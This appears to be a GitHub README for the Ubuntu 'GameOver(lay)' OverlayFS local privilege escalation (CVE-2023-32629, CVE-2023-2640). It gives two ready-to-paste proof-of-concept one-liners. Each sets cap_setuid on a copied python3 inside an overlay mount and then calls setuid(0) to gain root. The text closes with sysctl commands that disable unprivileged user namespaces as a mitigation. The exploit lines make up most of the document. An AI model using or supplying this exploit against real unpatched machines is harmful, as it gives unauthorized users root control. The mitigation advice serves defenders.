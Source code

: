 # Ubuntu GameOver(lay) Local Privilege Escalation CVE-2023–32629 & CVE-2023–2640

## original poc payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
## adjusted poc payload; likely false positive
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```


### note
If you are unable to upgrade your kernel version or Ubuntu distro, you can alternatively adjust the permissions and deny low priv users from using the OverlayFS feature.
change permissions on the fly, won't persist reboots
```
sudo sysctl -w kernel.unprivileged_userns_clone=0
```
<br>
change permissions permanently; requires reboot
<br><br>

```
echo kernel.unprivileged_userns_clone=0 | sudo tee /etc/sysctl.d/99-disable-unpriv-userns.conf
```


<br><br><br>

==================================================================================
